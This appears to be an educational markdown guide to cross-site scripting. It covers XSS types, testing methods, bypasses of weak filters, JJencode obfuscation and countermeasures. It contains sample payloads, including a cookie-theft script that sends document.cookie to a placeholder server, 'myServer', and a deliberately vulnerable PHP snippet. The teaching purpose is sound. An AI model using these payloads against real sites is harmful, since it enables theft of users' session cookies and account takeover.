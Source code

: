 # XSS 

## Lexic

* [JavaScript](items/javascript.md)
* [Cookies](items/cookies.md)
* [Web Client](items/web_client.md)
* [Web Server](items/web_server.md)
* [XMLHttpRequest](items/xhr.md)
* [WAF](items/waf.md)
* [Proxy](items/proxy.md)
* [SOP](items/sop.md)
* [HTML](items/html.md)
* [DOM](items/dom.md)

## Nomenclature 
### XSS stands for:
Cross Site Scripting
### Exploitability
Easy / Medium / Difficult according to the context
### Impact : 
Several: `disfigurements, theft of cookie, unauthorized files access, DoS, control victim browser, ` 
# Cross Site Scripting 
-----
## Overview 
The XSS attack is an attack realized when data submit from end user is `interpretted by a browser` through [Javascript](items/javascript.md) language mostly.
It is classified among `injection attacks`.  Early on, it was categorized as **three** kinds, `stored`, `DOM based` and `reflected`. 
* These three types were defined as follows :

  * __Stored XSS__: generally occurs when server stocks submitted data from one user and then this data could be seen by others users : in a message log, in user log, in user credentials, in message form, in user cv.
  `Client -> Server -> Users of the site (possibily including attacker)`

  * __Reflected XSS__ : when the user supplied data is automatically replied to the same user without escapping from the server.
  `Client -> Server -> Client`

  * __DOM based XSS__ : when the user input is not sent to the server but is used to automatically update its `DOM`.
  `Client -> Client`

* This classification was quickly deprecated. To clarify it, the research community proposed two new terms to help organize the types of XSS that can occur :
  * **Server XSS**
  * **Client XSS**

### Server XSS 
---
Server XSS occurs when untrusted data from user is replied with server generated HTML. In this case, the entire vulnerability is in **server-side code**, and the browser is simply rendering the response and executing any valid script embedded within it.

### Client XSS
----
Client XSS occurs when `untrusted data` is used to update the `DOM` with an unsafe call of **client-side script**. 

## How to test for XSS 
* `Graybox` test is the best way to test for XSS. Each HTTP data input and printed after could possibly be an XSS attack vector if the input is not escapped. 
For example this code is vulnerable.
```
    <?php
    echo 'Hello <h1>' .$_GET["name"]. '!</h1>';
    ?>
```
If the value of name is ```</h1><script>alert('xss');</script><h1>``` the browser will get the following answer from the server 
```
    <h1>!</h1>
    <script>alert('xss');</script>
    <h1></h1>
```	


* The best way to perform `black blackbox` XSS test in server is to use a `proxy`, `dirbust` the website and `analyze` all submitted data to the server and inject some HTML characters and analyse the server responses. Submit to check :
  * HTTP headers
  * URL parameters, query string
  * Request body, form data
  * Cookies, API storage 

From all the website submits listed, test with HTML chars (html entities), and look the render in browser. If it is not well escaped (the result is not HTML special character), probably the website is XSS vulnerable.

 
---
## Examples     
### Example 1 : cookie theft 
This code will send the cookie of the user who visit the website containing this payload. 

```
    <img src="nonExistImg" onerror="myFunction()"/>
    <script>function myFunction(){
	window.location = "http://myServer/?cookie".concat("=", document.cookie);
	}
    </script>
```

### Example 2 : XSS with weak js function 

```	
    myFunction(){
	myImg.src = document.getElementById('imgId').value; 
	document.body.appendChild(myImg); 
	}

```
If the user sends ```'); alert('xss'); document.getElement('``` the code will become ```myImg.src = document.getElementById(''); alert('xss'); document.getElementById('imgId').value;```

### Example 3 : Bad escapping
```
   myFunction(){
	userInputEscapped = userInput.replace('<script>', ' ');
	document.appendChild(userInputEscapped);
	}

```
This function appends to the document body the user input. It replaces the user input containing <script> by " ". 
For example, if a user inputs ```<script>alert("test");</script>``` the result will be ```alert("test");``` and then will not be executed.
This kind of escapping is very unuseful. If the attacker choose ```<SCRIPT>alert('test');</SCRIPT>``` the replace method is case sensitive, so the js script will be executed. 
``` 
myFunction(){
	userInputEscapped = userInput.replace('"', ' '); 
	document.body.appendChild(userInputEscapped); 
	}
  ```
In this example the quote char is replaced with ' '. An attacker could attack this implementation by using ```String.fromCharCode(35,120,115,115,34);``` to get ```alert("XSS")```.

### Obfuscation
`Obfuscation` is the deliberate act of creating source or machine code that is difficult for humans to understand. Like obfuscation in natural language, it may use needlessly roundabout expressions to compose statements. Programmers may deliberately obfuscate code to conceal its purpose (security through obscurity) or its logic or implicit values embedded in it, primarily, in order to prevent tampering, deter reverse engineering, or even as a puzzle or recreational challenge for someone reading the source code. This can be done manually or by using an automated tool, the latter being the preferred technique in industry.
#### Example:
Let's assume the following script:
```
alert("Hello, JavaScript" );
```
After an obfuscation with [JJencode](http://utf-8.jp/public/jjencode.html); it looks like:
```
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:
(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+
($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")
[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_]
[$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\"\\"+$.__$+$.__$+$.___+$.$$$_+
(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+",\\"+$.$__+$.___+"\\"+$.__$+$.__$+$._$_+$.$_$_+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"
\\"+$.__$+$._$_+$._$$+$.$$__+"\\"+$.__$+$.$$_+$._$_+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$.___+$.__+"
\\\"\\"+$.$__+$.___+")"+"\"")())();
```
## Counter Measures
* **Rule #1**: `NEVER` trust client. Always perform `input validation` at every single posted by the user to the server. This includes `escaping`, `filtering` and checking everything related to data submt.
* **Rule #2**: Always update `plugins`, `modules`, `core` and all plugged packaged being used in web systems. Indeed, this contributes in limiting XSS flaws risks. This requires mastering and knowing each item used in the system/web site.
* **Rule #3**: `Disable`/`remove` unseful features/modules cause `more one's web site embeds packages, higher is the risk of XSS vulnerability presence` mostly in CMSs.
* **Rule #4**: Think of using a [WAF](items/waf.md) and think of `deofuscation` methods.
* **Rule #5**: Implement [SOP](items/sop.md) policy `properly`.
 
